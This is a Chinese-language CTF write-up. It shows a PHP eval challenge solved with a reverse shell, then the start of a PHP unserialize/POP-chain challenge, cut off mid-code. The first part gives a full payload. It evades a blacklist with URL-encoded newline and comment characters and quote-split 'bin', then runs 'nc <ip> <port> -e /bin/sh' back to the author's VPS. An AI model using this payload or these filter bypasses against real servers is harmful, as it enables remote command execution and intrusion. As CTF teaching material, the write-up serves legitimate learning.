 解法1：反弹shell  
**过滤**：这题首先对输入进行了过滤，如果超长或者正则匹配到黑名单会直接结束程序  
**绕过**：在eval中，需要解决井号注释的作用，也要解决后面拼接字符串的障碍  

在eval中，使用换行url编码%0a绕过注释，再使用%23注释掉后面拼接的内容  通过反引号执行linux系统命令  

vps端：nc -l 端口  这样不会提示监听到了（  但执行命令有回显  
foreach会对每一个get参数进行过滤，过滤了bin，可以在字符中添加一对单双引号绕过  
> 最终payload：url?c=%0a\`$_GET[b]\`;%23&b=nc 公网ip 端口 -e /bi''n/sh  

在vps查看flag   tac /flag

## ezSerialize

这关套娃套了三层，卡死在stdclass这个芝士点了 

第一层

```php
<?php
include 'flag.php';
highlight_file(__FILE__);
error_reporting(0);

class Flag {
    public $token;
    public $password;

    public function __construct($a, $b)
    {
        $this->token = $a;
        $this->password = $b;
    }

    public function login()
    {
        return $this->token === $this->password;
    }
}

if (isset($_GET['pop'])) {
    $pop = unserialize($_GET['pop']);
    $pop->token=md5(mt_rand());
    if($pop->login()) {
        echo $flag;
    }
}
```

第一层，考察引用。把随机数的md5值赋值给反序列化对象的token，调用login函数，token===login相等才给flag，在构造函数里把password作为token的引用，这样就一定相等了  

pop链  
```php
class Flag {
    public $token;
    public $password;

    public function __construct($a, $b)
    {
        $this->token = $a;
        $this->password = &$this->token;
    }

    public function login()
    {
        return $this->token === $this->password;
```
